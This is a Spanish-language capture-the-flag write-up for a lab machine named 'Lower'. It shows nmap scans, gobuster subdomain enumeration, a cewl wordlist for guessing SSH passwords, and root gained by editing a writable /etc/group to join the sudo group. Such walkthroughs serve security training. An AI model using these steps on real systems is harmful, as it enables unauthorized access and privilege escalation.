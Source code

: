 # Máquina Lower

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.141

![alt text](image-1.png)


### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 vvv -Pn 192.168.42.141

![alt text](image-2.png)

agregamos al /etc/hosts el dominio unique.nyx

![alt text](image-3.png)

### Fuzing web

al intentar ingresar al unique.nyx no me sale nada de información entonces procedí a enumerar subdominios:

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://unique.nyx --append-domain

![alt text](image-4.png)

entonces lo agregamos al /etc/hosts

![alt text](image-5.png)

ingresamos por url:

http://tech.unique.nyx/


![alt text](image-6.png)

### Explotación

Tomé los nombres de tom, kathren y lancer y los guardo como usernames.txt

luego genero un diccionario con la herramienta cewl con las palabras que hay en la web

cewl http://tech.unique.nyx/ --with-numbers -w pass.txt

![alt text](image-7.png)

Me conecté por ssh:

![alt text](image-8.png)

### user.txt

![alt text](image-9.png)


### Escalar privilegios

Ejecuté linpeas y me aparece que tengo permisos de escritura en /etc/group

entonces edité el archivo:

nano /etc/group

sudo:x:27:lancer

cerré sesión y volví a conectarme por ssh

hice id 

![alt text](image-10.png)

hice sudo su y escribí la contraseña de lancer

![alt text](image-11.png)

### root.txt

![alt text](image-12.png)